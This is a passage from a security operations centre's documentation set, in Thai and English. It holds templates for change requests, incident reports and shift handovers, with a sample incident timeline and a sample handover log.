| **รหัส RFC** | #RFC-YYYYMMDD-XX |
| **ผู้ร้องขอ** | [ชื่อ / ตำแหน่ง] |
| **วันที่ส่ง** | YYYY-MM-DD |
| **วันที่เป้าหมาย** | YYYY-MM-DD |
| **ประเภท** | ☐ Standard · ☐ Normal · ☐ Emergency |
| **ลำดับความสำคัญ** | ☐ Critical · ☐ High · ☐ Medium · ☐ Low |
| **สภาพแวดล้อม** | ☐ Production · ☐ Staging · ☐ Development |

---

## 1. รายละเอียดการเปลี่ยนแปลง

| มิติ | รายละเอียด |
|:---|:---|
| **ส่วนประกอบ** | [SIEM / EDR / SOAR / Network / อื่นๆ] |
| **สรุปการเปลี่ยนแปลง** | [เช่น ติดตั้งกฎตรวจจับใหม่ 'Detect Mimikatz T1003'] |
| **ขอบเขต** | [ระบบ/tenant/region ที่ได้รับผลกระทบ] |
| **เวอร์ชัน** | จาก: [ปัจจุบัน] → เป็น: [เป้าหมาย] |

---

## 2. เหตุผลความจำเป็น

| คำถาม | คำตอบ |
|:---|:---|
| **ความต้องการทางธุรกิจ** | |
| **ความเสี่ยงที่ลดได้** | |
| **ผลกระทบหากไม่เปลี่ยน** | |
| **ข้อกำหนดกฎระเบียบ?** | ☐ ใช่ (ระบุ) · ☐ ไม่ใช่ |

---

## 3. วิเคราะห์ผลกระทบ

| มิติ | การประเมิน |
|:---|:---|
| **ระบบที่ได้รับผลกระทบ** | [รายการระบบทั้งหมด] |
| **ทีมที่ได้รับผลกระทบ** | [SOC / IT Ops / Network / ผู้ใช้] |
| **ความเสี่ยงที่จะล้มเหลว** | ☐ ต่ำ · ☐ กลาง · ☐ สูง |
| **ต้องหยุดระบบ** | ☐ ใช่ (ระยะเวลา: ____) · ☐ ไม่ใช่ |
| **ผลกระทบ Performance** | ☐ ไม่มี · ☐ ลดลงชั่วคราว · ☐ สำคัญ |
| **ความเสี่ยง False Positive** | ☐ ต่ำ · ☐ กลาง · ☐ สูง |

---

## 4. แผนการดำเนินการ

| # | ขั้นตอน | ผู้รับผิดชอบ | ระยะเวลา | เช็คพอยต์ |
|:---:|:---|:---|:---|:---|
| 1 | สำรองข้อมูล/snapshot ก่อนเปลี่ยน | | | ☐ |
| 2 | [ขั้นตอนดำเนินการ] | | | ☐ |
| 3 | [ขั้นตอนดำเนินการ] | | | ☐ |
| 4 | ตรวจสอบหลังเปลี่ยน | | | ☐ |
| 5 | ระยะเวลาเฝ้าระวัง | | | ☐ |

---

## 5. การทดสอบและตรวจสอบ

| การทดสอบ | ผลที่คาดหวัง | ผลจริง | ผ่าน? |
|:---|:---|:---|:---:|
| ทดสอบฟังก์ชัน | | | ☐ |
| ทดสอบ Performance | | | ☐ |
| ตรวจสอบ Alert (กฎตรวจจับ) | | | ☐ |
| ไม่มี regression กฎเดิม | | | ☐ |

---

## 6. แผนถอยกลับ (Rollback)

| # | ขั้นตอน Rollback | ผู้รับผิดชอบ | ระยะเวลา |
|:---:|:---|:---|:---|
| 1 | | | |
| 2 | | | |
| 3 | ยืนยัน rollback สำเร็จ | | |

**เงื่อนไข Rollback**: [อะไรจะทำให้ต้อง rollback?]

---

## 7. การอนุมัติ (CAB)

| ตำแหน่ง | ชื่อ | ผลตัดสิน | วันที่ |
|:---|:---|:---:|:---|
| SOC Manager | | ☐ อนุมัติ · ☐ ปฏิเสธ | |
| IT Operations | | ☐ อนุมัติ · ☐ ปฏิเสธ | |
| Security Lead | | ☐ อนุมัติ · ☐ ปฏิเสธ | |
| CISO (เฉพาะ Critical) | | ☐ อนุมัติ · ☐ ปฏิเสธ | |

---

## 8. ทบทวนหลังดำเนินการ

| ตัวชี้วัด | ค่า |
|:---|:---|
| **เปลี่ยนแปลงสำเร็จ?** | ☐ สำเร็จ · ☐ บางส่วน · ☐ ไม่สำเร็จ (rollback) |
| **เวลาดำเนินการจริง** | |
| **ปัญหาที่พบ** | |
| **บทเรียน** | |

---

## เกณฑ์ประเมินความเสี่ยง

| ปัจจัย | ต่ำ (1) | กลาง (2) | สูง (3) |
|:---|:---|:---|:---|
| **ขอบเขต** | Rule/dashboard เดียว | หลายเครื่องมือ/config | Core infrastructure |
| **ย้อนกลับ** | Rollback ทันที | Rollback < 1 ชม. | Rollback > 1 ชม. |
| **ผลกระทบ** | ไม่สะดวกเล็กน้อย | Alert gap < 1 ชม. | ข้อมูลสูญหาย |
| **การทดสอบ** | ทดสอบเต็มใน lab | ทดสอบบางส่วน | ทดสอบล่วงหน้าไม่ได้ |
| **เวลา** | Change window | เวลาทำการ | ระหว่าง incident |

**คะแนนเสี่ยง** = รวมทุกปัจจัย (5-15)
- **5-7**: ต่ำ → SOC Lead อนุมัติ
- **8-10**: กลาง → SOC Manager อนุมัติ
- **11-15**: สูง → CISO อนุมัติ + CAB review

## Approval Matrix

| ประเภท Change | ระดับเสี่ยง | ผู้อนุมัติ | Lead Time |
|:---|:---|:---|:---|
| Detection rule ใหม่ (test) | ต่ำ | SOC Lead | วันเดียว |
| Detection rule (production) | ต่ำ-กลาง | SOC Lead + peer review | 24 ชม. |
| SIEM configuration | กลาง | SOC Manager | 48 ชม. |
| Log source ใหม่ | กลาง | SOC Manager | 1 สัปดาห์ |
| Agent deploy (fleet) | สูง | SOC Manager + IT Lead | 1 สัปดาห์ |
| Platform upgrade หลัก | สูง | CISO + CAB | 2 สัปดาห์ |

## Checklist ตรวจหลังเปลี่ยน

```
□ Change ดำเนินการสำเร็จ
□ ไม่มี error ใน logs
□ Dashboard สุขภาพระบบปกติ
□ Test alert ทำงานถูกต้อง (ถ้าเปลี่ยน rule)
□ Data flow ยืนยันแล้ว (ถ้าเปลี่ยน source/pipeline)
□ ไม่มี FP เพิ่มผิดปกติ
□ Performance baseline ไม่เปลี่ยน
□ Rollback plan ยืนยันว่าใช้ได้
□ Change ticket อัปเดตและปิดแล้ว
□ แจ้งทีมว่า change เสร็จ
```

## เอกสารที่เกี่ยวข้อง

- [ขั้นตอนการ Deploy](../02_Platform_Operations/Deployment_Procedures.th.md)
- [แบบฟอร์ม Incident](incident_report.th.md)
- [SOP การจัดการเปลี่ยนแปลง](../06_Operations_Management/Change_Management.th.md)

### Change Risk Assessment Matrix

| ปัจจัย | Low (1) | Medium (2) | High (3) |
|:---|:---|:---|:---|
| ผลกระทบต่อ Production | ไม่มี | บางส่วน | ทั้งระบบ |
| ความซับซ้อน | Simple | Multi-step | Cross-system |
| Rollback Difficulty | Auto | Manual < 1hr | Manual > 1hr |
| Downtime Required | ไม่มี | < 30 min | > 30 min |

### Change Communication Template

```
Subject: [RFC-XXXX] Change Notification
- Change: [รายละเอียด]
- Window: [วันเวลา]
- Impact: [ผลกระทบ]
- Contact: [ผู้รับผิดชอบ]
- Rollback ETA: [เวลาถ้าต้อง rollback]
```

### Approval Quick Guide

| Risk Level | Approver | Turnaround |
|:---|:---|:---|
| Low | Team lead | Same day |
| Medium | Manager | 2 days |
| High | CAB | 5 days |

## อ้างอิง

- [ITIL Change Management](https://www.axelos.com/certifications/itil-service-management)
- [NIST SP 800-128](https://csrc.nist.gov/publications/detail/sp/800-128/final)


---

## File: 11_Reporting_Templates/incident_report.en.md

# Incident Report Template

> **Instructions**: Complete all mandatory sections (★) within 24 hours of incident closure. For Critical/High severity incidents, the executive summary must be submitted to management within 4 hours of detection.

---

## Header

| Field | Value |
|:---|:---|
| **Incident ID** | #YYYYMMDD-00X |
| **Date Detected** | YYYY-MM-DD HH:MM (UTC) |
| **Date Closed** | YYYY-MM-DD HH:MM (UTC) |
| **Analyst** | [Name / Role] |
| **Severity** | ☐ Critical · ☐ High · ☐ Medium · ☐ Low |
| **Status** | ☐ Open · ☐ Investigating · ☐ Contained · ☐ Closed |
| **TLP** | ☐ RED · ☐ AMBER+STRICT · ☐ AMBER · ☐ GREEN · ☐ CLEAR |
| **Category** | [Phishing / Malware / Ransomware / Account Compromise / DDoS / Data Breach / Other] |
| **MITRE ATT&CK** | [Technique IDs, e.g., T1566.001, T1059.001] |

---

## ★ 1. Executive Summary

*2–3 sentence overview: What happened, what was the impact, and what was the outcome?*

> 

---

## ★ 2. Timeline (UTC)

| Time | Phase | Event |
|:---|:---|:---|
| YYYY-MM-DD HH:MM | **Initial Activity** | First attacker action (if known) |
| YYYY-MM-DD HH:MM | **Detection** | Alert triggered by [Rule Name / Source] |
| YYYY-MM-DD HH:MM | **Triage** | Analyst acknowledged and began investigation |
| YYYY-MM-DD HH:MM | **Escalation** | Escalated to [Tier 2 / SOC Lead / Management] |
| YYYY-MM-DD HH:MM | **Containment** | [Action taken, e.g., host isolated, account disabled] |
| YYYY-MM-DD HH:MM | **Eradication** | [Action taken, e.g., malware removed, vulnerability patched] |
| YYYY-MM-DD HH:MM | **Recovery** | System returned to production |
| YYYY-MM-DD HH:MM | **Monitoring** | Enhanced monitoring period began |
| YYYY-MM-DD HH:MM | **Closure** | Incident declared resolved |

---

## ★ 3. Impact Assessment

| Dimension | Assessment |
|:---|:---|
| **Affected Hosts** | [List hostnames/IPs] |
| **Affected Users** | [Count + list if < 10] |
| **Affected Services** | [Applications, databases, etc.] |
| **Data Loss** | ☐ None · ☐ Suspected · ☐ Confirmed (details: ____) |
| **Data Type** | ☐ PII · ☐ Financial · ☐ Credentials · ☐ IP · ☐ Other |
| **Business Impact** | [Downtime duration, revenue impact, reputational risk] |
| **Regulatory Notification Required** | ☐ Yes (PDPA 72h / Other) · ☐ No |

---

## ★ 4. Root Cause Analysis

### VERIS "4A" Framework

| Dimension | Assessment |
|:---|:---|
| **Actor** | ☐ External · ☐ Internal · ☐ Partner · ☐ Unknown |
| **Action** | ☐ Malware · ☐ Hacking · ☐ Social Engineering · ☐ Error · ☐ Misuse · ☐ Physical |
| **Asset** | ☐ Server · ☐ Workstation · ☐ User Device · ☐ Network · ☐ Cloud · ☐ Person · ☐ Data |
| **Attribute** | ☐ Confidentiality · ☐ Integrity · ☐ Availability |

### Root Cause Detail

| Question | Answer |
|:---|:---|
| **What vulnerability was exploited?** | [CVE-XXXX-XXXX or description] |
| **How did the attacker gain access?** | [Initial access vector] |
| **What controls failed?** | [Detection gap, missing patch, etc.] |
| **Was this preventable?** | ☐ Yes (how) · ☐ No (why) |

---

## ★ 5. Indicators of Compromise (IoCs)

| Type | Value | Context |
|:---|:---|:---|
| IP Address | | [C2 / Scanner / Source] |
| Domain | | [Phishing / C2 / Staging] |
| File Hash (SHA256) | | [Malware / Tool] |
| Email Address | | [Sender / Recipient] |
| URL | | [Payload / Landing page] |
| File Path | | [Dropped / Modified] |
| Process | | [Suspicious / Malicious] |
| Registry Key | | [Persistence] |

---

## ★ 6. Remediation & Follow-up Actions

| # | Action | Owner | Status | Due Date |
|:---:|:---|:---|:---:|:---|
| 1 | | | ☐ Done · ☐ Pending | |
| 2 | | | ☐ Done · ☐ Pending | |
| 3 | | | ☐ Done · ☐ Pending | |
| 4 | Update detection rules | SOC | ☐ Done · ☐ Pending | |
| 5 | Update playbook if needed | SOC | ☐ Done · ☐ Pending | |

---

## 7. Lessons Learned

| Question | Answer |
|:---|:---|
| **What went well?** | |
| **What could be improved?** | |
| **Were playbooks followed?** | ☐ Yes · ☐ Partially · ☐ No |
| **Were SLAs met?** | ☐ Yes · ☐ No (detail: ____) |
| **Training gaps identified?** | |
| **Tool/process changes needed?** | |

---

## 8. Approvals

| Role | Name | Signature | Date |
|:---|:---|:---|:---|
| Lead Analyst | | | |
| SOC Manager | | | |
| CISO (Critical only) | | | |

---

## Executive Summary Template

For incidents requiring management notification, include a 1-paragraph executive summary:

```markdown
## Executive Summary

On [DATE], the SOC detected [THREAT TYPE] targeting [SYSTEM/USER].
The attack was [detected/reported] at [TIME] and contained within
[DURATION]. Impact assessment: [DESCRIPTION]. [X] systems/users
were affected. Root cause: [BRIEF EXPLANATION]. Current status:
[CONTAINED/ERADICATED/RECOVERED]. Estimated business impact:
[LOW/MEDIUM/HIGH]. [X] remediation actions are in progress.
```

## Timeline Documentation Best Practice

Use UTC timestamps and format consistently:

```markdown
## Incident Timeline — INC-2026-042

| Time (UTC) | Phase | Event | Source |
|:---|:---|:---|:---|
| 2026-02-15 08:23 | Initial Access | Phishing email received by user | Email gateway |
| 2026-02-15 08:31 | Execution | User clicked malicious link | Proxy logs |
| 2026-02-15 08:32 | Execution | Macro executed, PowerShell spawned | EDR alert |
| 2026-02-15 08:35 | Detection | SOC alert triggered (Sigma rule) | SIEM |
| 2026-02-15 08:38 | Triage | T1 analyst confirmed True Positive | Ticket |
| 2026-02-15 08:42 | Escalation | Escalated to T2 analyst | Ticket |
| 2026-02-15 08:50 | Containment | Host isolated via EDR | EDR console |
| 2026-02-15 09:15 | Investigation | Forensic image captured | Forensic tool |
| 2026-02-15 11:00 | Eradication | Malware removed, creds reset | IT + EDR |
| 2026-02-15 14:00 | Recovery | Host rebuilt and returned | IT |
| 2026-02-15 15:00 | Post-Incident | Lessons learned meeting scheduled | Calendar |
```

## Evidence Attachment Checklist

```
□ Screenshots of alert/detection
□ Raw log excerpts (relevant lines only)
□ Network capture (if applicable)
□ Memory dump (if applicable)
□ Malware sample hash (NEVER attach actual malware)
□ Email headers (if phishing)
□ IOCs collected (IPs, domains, hashes)
□ MITRE ATT&CK mapping
□ Impact assessment documentation
```

## Related Documents

- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Shift Handover Template](shift_handover.en.md)
- [Change Request (RFC)](change_request_rfc.en.md)
- [PDPA Compliance](../07_Compliance_Privacy/PDPA_Compliance.en.md)

## References

- [NIST SP 800-61r2 — Incident Handling](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [VERIS Framework](http://veriscommunity.net/)
- [SANS Incident Report Template](https://www.sans.org/information-security-policy/)


---

## File: 11_Reporting_Templates/incident_report.th.md

# แบบฟอร์มรายงานเหตุการณ์ (Incident Report Template)

> **คำแนะนำ**: กรอกส่วนบังคับ (★) ให้ครบภายใน 24 ชม. หลังปิดเคส สำหรับ Critical/High ต้องส่ง executive summary ให้ผู้บริหารภายใน 4 ชม. หลังตรวจพบ

---

## ส่วนหัว

| ฟิลด์ | ค่า |
|:---|:---|
| **รหัสเหตุการณ์** | #YYYYMMDD-00X |
| **วันที่ตรวจพบ** | YYYY-MM-DD HH:MM (UTC) |
| **วันที่ปิด** | YYYY-MM-DD HH:MM (UTC) |
| **ผู้รับผิดชอบ** | [ชื่อ / ตำแหน่ง] |
| **ความรุนแรง** | ☐ Critical · ☐ High · ☐ Medium · ☐ Low |
| **สถานะ** | ☐ Open · ☐ กำลังสืบสวน · ☐ จำกัดวง · ☐ Closed |
| **TLP** | ☐ RED · ☐ AMBER+STRICT · ☐ AMBER · ☐ GREEN · ☐ CLEAR |
| **หมวดหมู่** | [Phishing / Malware / Ransomware / Account Compromise / DDoS / Data Breach / อื่นๆ] |
| **MITRE ATT&CK** | [Technique IDs, เช่น T1566.001, T1059.001] |

---

## ★ 1. บทสรุปผู้บริหาร

*สรุป 2-3 ประโยค: เกิดอะไรขึ้น ผลกระทบคืออะไร ผลลัพธ์เป็นอย่างไร*

> 

---

## ★ 2. ไทม์ไลน์ (UTC)

| เวลา | ขั้นตอน | เหตุการณ์ |
|:---|:---|:---|
| YYYY-MM-DD HH:MM | **กิจกรรมเริ่มต้น** | การกระทำแรกของผู้โจมตี (ถ้าทราบ) |
| YYYY-MM-DD HH:MM | **ตรวจพบ** | Alert จาก [ชื่อกฎ / แหล่ง] |
| YYYY-MM-DD HH:MM | **คัดกรอง** | Analyst รับเรื่องและเริ่มสืบสวน |
| YYYY-MM-DD HH:MM | **Escalation** | ส่งต่อไปยัง [Tier 2 / SOC Lead / ผู้บริหาร] |
| YYYY-MM-DD HH:MM | **จำกัดวง** | [การดำเนินการ เช่น แยกเครื่อง, ปิดบัญชี] |
| YYYY-MM-DD HH:MM | **กำจัด** | [การดำเนินการ เช่น ลบ malware, patch] |
| YYYY-MM-DD HH:MM | **กู้คืน** | ระบบกลับสู่ production |
| YYYY-MM-DD HH:MM | **ปิดเคส** | ประกาศแก้ไขเสร็จสิ้น |

---

## ★ 3. การประเมินผลกระทบ

| มิติ | การประเมิน |
|:---|:---|
| **เครื่องที่ได้รับผลกระทบ** | [รายชื่อ hostname/IP] |
| **ผู้ใช้ที่ได้รับผลกระทบ** | [จำนวน + รายชื่อถ้า < 10] |
| **บริการที่ได้รับผลกระทบ** | [แอปพลิเคชัน, ฐานข้อมูล ฯลฯ] |
| **ข้อมูลสูญหาย** | ☐ ไม่มี · ☐ สงสัย · ☐ ยืนยัน (รายละเอียด: ____) |
| **ประเภทข้อมูล** | ☐ PII · ☐ การเงิน · ☐ Credentials · ☐ IP · ☐ อื่นๆ |
| **ผลกระทบทางธุรกิจ** | [ระยะเวลา downtime, ผลกระทบรายได้] |
| **ต้องแจ้งตามกฎหมาย** | ☐ ใช่ (PDPA 72 ชม. / อื่นๆ) · ☐ ไม่ |

---

## ★ 4. วิเคราะห์สาเหตุ (VERIS "4A")

| มิติ | การประเมิน |
|:---|:---|
| **ผู้กระทำ** | ☐ External · ☐ Internal · ☐ Partner · ☐ ไม่ทราบ |
| **การกระทำ** | ☐ Malware · ☐ Hacking · ☐ Social · ☐ Error · ☐ Misuse |
| **สินทรัพย์** | ☐ Server · ☐ Workstation · ☐ User Device · ☐ Cloud · ☐ Data |
| **ผลกระทบ** | ☐ Confidentiality · ☐ Integrity · ☐ Availability |

| คำถาม | คำตอบ |
|:---|:---|
| **ช่องโหว่ที่ถูกใช้** | [CVE-XXXX-XXXX หรือคำอธิบาย] |
| **วิธีเข้าถึง** | [Initial access vector] |
| **ป้องกันได้?** | ☐ ได้ (วิธี) · ☐ ไม่ได้ (เหตุผล) |

---

## ★ 5. Indicators of Compromise (IoCs)

| ประเภท | ค่า | บริบท |
|:---|:---|:---|
| IP Address | | [C2 / Scanner / Source] |
| Domain | | [Phishing / C2] |
| File Hash (SHA256) | | [Malware / Tool] |
| URL | | [Payload / Landing page] |

---

## ★ 6. การแก้ไขและติดตาม

| # | การดำเนินการ | ผู้รับผิดชอบ | สถานะ | กำหนด |
|:---:|:---|:---|:---:|:---|
| 1 | | | ☐ เสร็จ · ☐ รอ | |
| 2 | | | ☐ เสร็จ · ☐ รอ | |
| 3 | อัปเดตกฎตรวจจับ | SOC | ☐ เสร็จ · ☐ รอ | |

---

## 7. บทเรียน

| คำถาม | คำตอบ |
|:---|:---|
| **อะไรทำได้ดี?** | |
| **อะไรปรับปรุงได้?** | |
| **ทำตาม Playbook?** | ☐ ใช่ · ☐ บางส่วน · ☐ ไม่ |
| **SLA ตรงเวลา?** | ☐ ใช่ · ☐ ไม่ (รายละเอียด: ____) |

---

## 8. การอนุมัติ

| ตำแหน่ง | ชื่อ | ลายเซ็น | วันที่ |
|:---|:---|:---|:---|
| Lead Analyst | | | |
| SOC Manager | | | |
| CISO (เฉพาะ Critical) | | | |

---

## Template สรุปผู้บริหาร

สำหรับ incident ที่ต้องแจ้งผู้บริหาร:

```markdown
## สรุปผู้บริหาร

เมื่อ [วันที่] SOC ตรวจพบ [ประเภทภัย] กำหนดเป้า [ระบบ/ผู้ใช้]
การโจมตีถูก [ตรวจจับ/แจ้ง] เวลา [เวลา] และ contain ภายใน [ระยะเวลา]
ผลกระทบ: [คำอธิบาย] ระบบ/ผู้ใช้ [X] รายได้รับผลกระทบ
สาเหตุ: [อธิบายสั้น] สถานะ: [Contained/Eradicated/Recovered]
ผลกระทบธุรกิจโดยรวม: [ต่ำ/กลาง/สูง]
```

## แนวปฏิบัติบันทึก Timeline

ใช้ UTC timestamp และรูปแบบสม่ำเสมอ:

```markdown
## Timeline Incident — INC-2026-042

| เวลา (UTC) | ขั้นตอน | เหตุการณ์ | แหล่งข้อมูล |
|:---|:---|:---|:---|
| 2026-02-15 08:23 | Initial Access | ได้รับ phishing email | Email gateway |
| 2026-02-15 08:31 | Execution | ผู้ใช้คลิก link อันตราย | Proxy logs |
| 2026-02-15 08:32 | Execution | Macro ทำงาน, PowerShell spawn | EDR alert |
| 2026-02-15 08:35 | Detection | SOC alert trigger (Sigma rule) | SIEM |
| 2026-02-15 08:38 | Triage | T1 analyst ยืนยัน True Positive | Ticket |
| 2026-02-15 08:42 | Escalation | Escalate ไป T2 analyst | Ticket |
| 2026-02-15 08:50 | Containment | Isolate host ผ่าน EDR | EDR console |
| 2026-02-15 09:15 | Investigation | เก็บ forensic image | Forensic tool |
| 2026-02-15 11:00 | Eradication | ลบ malware, reset credentials | IT + EDR |
| 2026-02-15 14:00 | Recovery | Build host ใหม่ | IT |
```

## Checklist แนบหลักฐาน

```
□ Screenshots ของ alert/detection
□ Raw log excerpts (เฉพาะบรรทัดที่เกี่ยว)
□ Network capture (ถ้ามี)
□ Memory dump (ถ้ามี)
□ Hash ของ malware sample (อย่าแนบ malware จริง)
□ Email headers (ถ้าเป็น phishing)
□ IOCs ที่รวบรวม (IPs, domains, hashes)
□ MITRE ATT&CK mapping
□ เอกสารประเมินผลกระทบ
```

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../05_Incident_Response/Framework.th.md)
- [แบบฟอร์มส่งมอบกะ](shift_handover.th.md)
- [แบบฟอร์ม RFC](change_request_rfc.th.md)
- [PDPA Compliance](../07_Compliance_Privacy/PDPA_Compliance.th.md)

### Report Quality Checklist

| Item | Description | ✓ |
|:---|:---|:---|
| Timeline | ครบทุก event | ☐ |
| Evidence | SHA256 hashes | ☐ |
| Impact | Quantified | ☐ |
| Root cause | Identified | ☐ |
| Actions | Assigned + dated | ☐ |

### Report Priority

| Severity | Due |
|:---|:---|
| Critical | 24 hrs |
| High | 72 hrs |

## อ้างอิง

- [NIST SP 800-61r2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [VERIS Framework](http://veriscommunity.net/)


---

## File: 11_Reporting_Templates/shift_handover.en.md

# Shift Handover Log

> **Instructions**: Complete all mandatory sections (★) before briefing the incoming shift. Save this log in the ticketing system or shared drive after both leads sign off.

---

## Header Information

| Field | Value |
|:---|:---|
| **Date** | YYYY-MM-DD |
| **Shift** | ☐ Morning (08:00–16:00) · ☐ Afternoon (16:00–00:00) · ☐ Night (00:00–08:00) |
| **Outgoing Lead** | [Name] |
| **Incoming Lead** | [Name] |
| **Handoff Time** | HH:MM |

---

## ★ 1. Shift Summary

**Overall Status**: ☐ Quiet · ☐ Normal · ☐ Busy · ☐ Critical

**Narrative Summary**:
> *Provide a 2–3 sentence overview of the shift. Highlight any escalations, notable events, or management directives received.*

---

## ★ 2. Active Incidents (Requiring Attention)

| ID | Severity | Category | Description | Current Status | Owner | Next Action | ETA |
|:---|:---:|:---|:---|:---|:---|:---|:---|
| #___ | Critical/High/Med/Low | Phishing/Malware/etc | Brief description | Triage/Investigation/Containment/etc | [Name] | What needs to happen next | When |
| | | | | | | | |
| | | | | | | | |

**Total Active**: ____ | **Critical/High**: ____ | **Awaiting Escalation**: ____

---

## ★ 3. System Health

| System | Status | Notes |
|:---|:---:|:---|
| SIEM Ingestion | ☐ Normal · ☐ Degraded · ☐ Down | |
| EDR Connectivity | ☐ Normal · ☐ Degraded · ☐ Down | |
| SOAR Playbooks | ☐ Normal · ☐ Degraded · ☐ Down | |
| TI Feed Updates | ☐ Normal · ☐ Delayed · ☐ Down | |
| Ticketing System | ☐ Normal · ☐ Degraded · ☐ Down | |
| Network Sensors | ☐ Normal · ☐ Degraded · ☐ Down | |
| Email Gateway | ☐ Normal · ☐ Degraded · ☐ Down | |

**Known Issues**: 
> *Describe any ongoing system degradation, scheduled maintenance, or license expirations.*

---

## ★ 4. Pending Tasks / Follow-ups

| # | Task | Related Ticket | Priority | Assigned To | Due |
|:---:|:---|:---|:---:|:---|:---|
| 1 | | | High/Med/Low | | |
| 2 | | | | | |
| 3 | | | | | |

---

## ★ 5. Intelligence & Advisories

### New Threat Intelligence
| Source | Summary | IoCs Added? | Action Required? |
|:---|:---|:---:|:---:|
| | | ☐ Yes · ☐ No | ☐ Yes · ☐ No |

### Vulnerability Advisories
| CVE | Affected Systems | Severity | Patch Available? | Action |
|:---|:---|:---:|:---:|:---|
| | | | ☐ Yes · ☐ No | |

---

## 6. Escalations (if applicable)

| Escalated To | Reason | Time | Response Received? | Status |
|:---|:---|:---|:---:|:---|
| | | | ☐ Yes · ☐ No | |

---

## 7. Change Advisories (if applicable)

| Change ID | System | Description | Window | Impact on Alerts? |
|:---|:---|:---|:---|:---:|
| | | | | ☐ Yes · ☐ No |

---

## 8. Compliance Deadlines (if applicable)

| Deadline | Regulation | Description | Days Remaining | Owner |
|:---|:---|:---|:---:|:---|
| | PDPA / ISO 27001 / etc | | | |

---

## ★ Shift Statistics

| Metric | Count |
|:---|:---:|
| Alerts Processed | |
| Incidents Opened | |
| Incidents Closed | |
| Escalations Made | |
| False Positives Identified | |
| Average Response Time (MTTA) | min |

---

## ★ Sign-off

| | Outgoing Lead | Incoming Lead |
|:---|:---|:---|
| **Name** | | |
| **Signature** | | |
| **Time** | | |

> ⚠️ **Both leads must sign off** to confirm that the briefing was conducted and all mandatory sections were reviewed.

---

## Completed Handover Example

```markdown
## Shift Handover — 2026-02-16 (Day → Night)

### Outgoing Analyst: John D. (Shift A)
### Incoming Analyst: Sarah T. (Shift B)

### Open Incidents
| Ticket ID | Severity | Status | Summary | Action Needed |
|:---|:---:|:---|:---|:---|
| INC-2026-089 | P2 | Investigating | Suspicious PowerShell on HR-PC-042 | Waiting EDR isolation approval |
| INC-2026-091 | P3 | Monitoring | Failed VPN logins from unknown IP | 12 more hours monitoring |

### Alert Queue Status
- Current queue: 14 alerts (7 low, 5 medium, 2 high)
- 2 high alerts need immediate triage

### System Health
- SIEM: ✅ Normal | EDR: ✅ Normal | Ticketing: ✅ Normal
- Log source gap: Firewall FL-02 offline since 14:30 (IT notified)

### Notes for Incoming
1. IMPORTANT: INC-089 — SOC Manager approved isolation, proceed when evidence captured
2. New Sigma rule deployed for CVE-2026-1234, may generate initial FPs
3. Scheduled maintenance for SIEM at 03:00, expect 15-min search delay
```

## Common Handover Mistakes

| ❌ Mistake | Impact | ✅ Best Practice |
|:---|:---|:---|
| Verbal-only handover | Details forgotten, context lost | Always write in template + brief verbally |
| Not mentioning system issues | Incoming analyst misses data gaps | Always check and report log source health |
| Incomplete incident summary | Time wasted re-investigating | Include: what happened, what's done, what's needed |
| Forgetting pending approvals | Containment delayed | List ALL pending approvals/waiting items |
| No alert queue status | Queue overflows | Always report queue depth and priority counts |

## Related Documents

- [Shift Handoff Standard](../06_Operations_Management/Shift_Handoff.en.md) — Full handoff procedure
- [IR Framework](../05_Incident_Response/Framework.en.md) — Incident response lifecycle
- [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md) — Performance metrics
- [Incident Report Template](incident_report.en.md) — Post-incident documentation

## References

- [NIST SP 800-61r2 — Incident Handling](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 11_Reporting_Templates/shift_handover.th.md

# บันทึกการส่งมอบกะ (Shift Handover Log)

> **คำแนะนำ**: กรอกทุกส่วนที่บังคับ (★) ก่อนบรีฟกะใหม่ บันทึกเอกสารนี้ในระบบ ticketing หรือ shared drive หลังจากทั้งสอง Lead ลงชื่อ

---

## ข้อมูลหัวกระดาษ

| ฟิลด์ | ค่า |
|:---|:---|
| **วันที่** | YYYY-MM-DD |
| **กะ** | ☐ เช้า (08:00–16:00) · ☐ บ่าย (16:00–00:00) · ☐ ดึก (00:00–08:00) |
| **Lead กะเก่า** | [ชื่อ] |
| **Lead กะใหม่** | [ชื่อ] |
| **เวลาส่งมอบ** | HH:MM |

---

## ★ 1. สรุปกะ

**สถานะโดยรวม**: ☐ เงียบ · ☐ ปกติ · ☐ ยุ่ง · ☐ วิกฤต

**สรุปภาพรวม**:
> *เขียนสรุป 2–3 ประโยคเกี่ยวกับกะ เน้นการ escalation, เหตุการณ์สำคัญ, หรือคำสั่งจากผู้บริหาร*

---

## ★ 2. Incidents ที่กำลังดำเนินการ (ต้องให้ความสนใจ)

| ID | ความรุนแรง | หมวดหมู่ | รายละเอียด | สถานะปัจจุบัน | เจ้าของ | ขั้นตอนถัดไป | ETA |
|:---|:---:|:---|:---|:---|:---|:---|:---|
| #___ | Critical/High/Med/Low | Phishing/Malware/อื่นๆ | รายละเอียดสั้น | Triage/สืบสวน/Containment | [ชื่อ] | สิ่งที่ต้องทำต่อ | เมื่อไหร่ |
| | | | | | | | |

**รวม Active**: ____ | **Critical/High**: ____ | **รอ Escalation**: ____

---

## ★ 3. สถานะระบบ

| ระบบ | สถานะ | หมายเหตุ |
|:---|:---:|:---|
| SIEM Ingestion | ☐ ปกติ · ☐ ผิดปกติ · ☐ หยุดทำงาน | |
| EDR Connectivity | ☐ ปกติ · ☐ ผิดปกติ · ☐ หยุดทำงาน | |
| SOAR Playbooks | ☐ ปกติ · ☐ ผิดปกติ · ☐ หยุดทำงาน | |
| TI Feed Updates | ☐ ปกติ · ☐ ล่าช้า · ☐ หยุดทำงาน | |
| ระบบ Ticketing | ☐ ปกติ · ☐ ผิดปกติ · ☐ หยุดทำงาน | |
| Network Sensors | ☐ ปกติ · ☐ ผิดปกติ · ☐ หยุดทำงาน | |
| Email Gateway | ☐ ปกติ · ☐ ผิดปกติ · ☐ หยุดทำงาน | |

**ปัญหาที่ทราบ**: 
> *อธิบายระบบที่มีปัญหา, การบำรุงรักษาตามกำหนด, หรือ license ที่ใกล้หมดอายุ*

---

## ★ 4. งานที่ค้าง / Follow-ups

| # | งาน | Ticket ที่เกี่ยวข้อง | ลำดับความสำคัญ | มอบหมายถึง | กำหนดส่ง |
|:---:|:---|:---|:---:|:---|:---|
| 1 | | | สูง/กลาง/ต่ำ | | |
| 2 | | | | | |
| 3 | | | | | |

---

